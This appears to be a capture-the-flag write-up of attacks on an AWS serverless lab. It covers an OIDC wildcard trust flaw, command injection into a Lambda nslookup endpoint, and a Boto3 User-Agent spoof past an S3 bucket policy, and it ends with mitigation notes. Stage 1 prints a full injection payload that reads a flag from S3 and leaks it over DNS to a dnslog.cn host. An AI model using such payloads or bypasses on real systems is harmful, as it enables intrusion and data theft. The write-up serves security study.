


<div align="center">
  

  <p align="center">
    
    
    
    
    
  </p>
</div>

---

## 🎯 Executive Summary & Challenge Portfolio

> [!IMPORTANT]  
> **Campaign Overview:** This master technical report documents the end-to-end exploitation of a multi-stage AWS serverless environment. Through a combination of IAM trust policy forensic analysis, command injection, VPC DNS tunneling, Boto3 SDK hook manipulation, and S3 versioning analysis, both challenge stages were successfully mapped and broken.

<table>
  <thead>
    <tr>
      <th width="150">Stage</th>
      <th width="200">Challenge Name</th>
      <th width="180">Core Technique</th>
      <th width="470">Key Findings & Flags</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>Stage 1</code></td>
      <td><strong>Have Some Faith</strong></td>
      <td>OIDC Wildcard & DNS Exfil</td>
      <td>🟢 <strong>Flag Captured:</strong> <code>1a1jelrlfg2yi2s0</code> (DNS Tunneling via Route 53 Resolver)</td>
    </tr>
    <tr>
      <td><code>Stage 2</code></td>
      <td><strong>Miss Me Yet?</strong></td>
      <td>Header Injection & S3 Versioning</td>
      <td>🔍 <strong>Methodology Verified:</strong> Leaked policy, Boto3 hooks, S3 access logs, and Delete Markers</td>
    </tr>
  </tbody>
</table>

---

## 🗺️ Architectural Threat Model & Attack Chain

The following Mermaid diagram illustrates the full infrastructure architecture across both challenge stages:



---

## 🚩 Stage 1 Deep Dive: "Have Some Faith"

### <samp>STEP 01</samp> ✦ OIDC Wildcard Trust Exploitation
Forensic analysis of the Git repository (`dotgit.zip`) exposed `policies/cicd-trust-policy.json.tpl`. We identified a critical OIDC wildcard misconfiguration:

```json
"Condition": {
    "StringLike": {
        "token.actions.githubusercontent.com:sub": "repo:*/*:ref:refs/heads/corgi"
    }
}
```

> [!WARNING]  
> The `repo:*/*` condition permitted any GitHub repository pushing to a `corgi` branch to assume `arn:aws:iam::009661764077:role/cicdRole`.

---

### <samp>STEP 02</samp> ✦ Command Injection & Route 53 DNS Exfiltration
By assuming `cicdRole` via a custom GitHub Actions workflow (`.github/workflows/stage1.yml`), we enumerated an API Gateway endpoint at `/dev/nslookupv2`.
- The backing Lambda function executed user input directly inside `/opt/nslookup` via Python `subprocess.run(shell=True)`.
- Because standard outbound HTTP/HTTPS egress was blocked by the isolated VPC, we leveraged the **AWS Route 53 VPC DNS Resolver (`169.254.169.253`)** to leak the flag via subdomain DNS tunneling:

<details>
<summary><b>📄 Click to Expand: Stage 1 Exploit Payload</b></summary>

```json
{
  "domain": "; /opt/aws s3 cp s3://codec4f26c862a321ef5/flag.txt /tmp/flag.txt; FLAG=$(python3 -c \"import binascii; print(binascii.hexlify(open(\\\"/tmp/flag.txt\\\",\\\"rb\\\").read()).decode())\"); /opt/nslookup $FLAG.ixz9wv.dnslog.cn"
}
```
</details>

<table>
  <thead>
    <tr>
      <th width="30%">Exfiltration Channel</th>
      <th width="70%">Intercepted Hex Payload & Decoded Flag</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>📡 DNS Listener (dnslog.cn)</code></td>
      <td><code>3161316a656c726c6667327969327330.ixz9wv.dnslog.cn</code></td>
    </tr>
    <tr>
      <td><code>🔓 Decoded Flag Value</code></td>
      <td><strong><code>1a1jelrlfg2yi2s0</code></strong></td>
    </tr>
  </tbody>
</table>

---

## 🚩 Stage 2 Deep Dive: "Miss Me Yet?"

### <samp>STEP 01</samp> ✦ CloudFront Reconnaissance & Policy Leakage
Directory fuzzing against `https://d4ysu55xg7wfi.cloudfront.net/` revealed an unindexed `/docs.html` file containing the raw **S3 Bucket Policy** for `userd8a2f72fe43094e8`.

> [!NOTE]  
> The policy revealed two access statements:
> - `Statement1`: Allows `s3:GetObject` and `s3:ListBucket` if `aws:UserAgent == "Amazon CloudFront"`.
> - `Statement2`: Allows full path access (`*`) when requests originate from a specific private VPC (`aws:SourceVpc`).

---

### <samp>STEP 02</samp> ✦ Lambda Sandbox Constraints & Boto3 Header Injection
We analyzed the execution endpoint at `/dev/code_exec` (`https://l8ssyaz69f.execute-api.us-east-1.amazonaws.com/dev/code_exec`).
1. **Outbound Isolation**: No Internet Gateway (IGW), no NAT Gateway, and outbound DNS (port 53) is blocked.
2. **Response Masking**: Standard `stdout` is discarded; successful executions return only `{"result": "Code executed successfully"}`.

To read bucket objects under `Statement1`, we implemented a **Boto3 Event Hook** (`before-send.s3.*`) inside our payload to inject `User-Agent: Amazon CloudFront`:

```python
import boto3

s3 = boto3.client('s3', region_name='us-east-1')

# Register Boto3 hook to inject required User-Agent header
s3.meta.events.register(
    'before-send.s3.*', 
    lambda request, **kwargs: request.headers.update({'User-Agent': 'Amazon CloudFront'})
)

# Enumerate bucket objects permitted under Statement1
response = s3.list_objects_v2(Bucket='userd8a2f72fe43094e8')
```

---

### <samp>STEP 03</samp> ✦ Audit Log Forensics & S3 Object Versioning
To eliminate the inaccuracies and false positives of indirect timing channels, we focused on direct S3 versioning and audit trails:

1. **S3 Server Access Logs (`logd8a2f72fe43094e8`)**:
   - Discovered a companion logging bucket capturing complete transaction histories, administrative principal ARNs, and deployment `User-Agent` strings.
2. **S3 Object Versioning & Delete Markers (`userd8a2f72fe43094e8`)**:
   - Confirmed object versioning is enabled and `s3:ListBucketVersions` is accessible with our injected header.
   - Identified multiple historical versions of `docs.html` and `index.html`, as well as non-current objects and Delete Markers hidden from standard listings.



---

## 🏁 Summary of Verified Attack Vectors

<table>
  <thead>
    <tr>
      <th width="25%">Challenge Component</th>
      <th width="75%">Verified Technique & Mitigation Note</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td><code>🔑 IAM CI/CD Trust</code></td>
      <td>Always restrict OIDC wildcard <code>sub</code> conditions to exact repository and branch names.</td>
    </tr>
    <tr>
      <td><code>💉 Lambda Input Validation</code></td>
      <td>Avoid passing raw user strings to shell sub-processes (<code>subprocess.run(..., shell=True)</code>).</td>
    </tr>
    <tr>
      <td><code>🌐 S3 Access Control</code></td>
      <td>Relying on HTTP headers (e.g., <code>User-Agent</code>) as a security barrier is bypassable via SDK hooks.</td>
    </tr>
    <tr>
      <td><code>📜 S3 Storage History</code></td>
      <td>Object versioning and server access logs preserve historical modifications and deleted artifacts.</td>
    </tr>
  </tbody>
</table>

---

<div align="center">
  <sub>🛡️ Documented by <b>Agent freecandy</b> • Cloud Escape CTF 2026 • Advanced Cloud Infrastructure Security</sub>
</div>
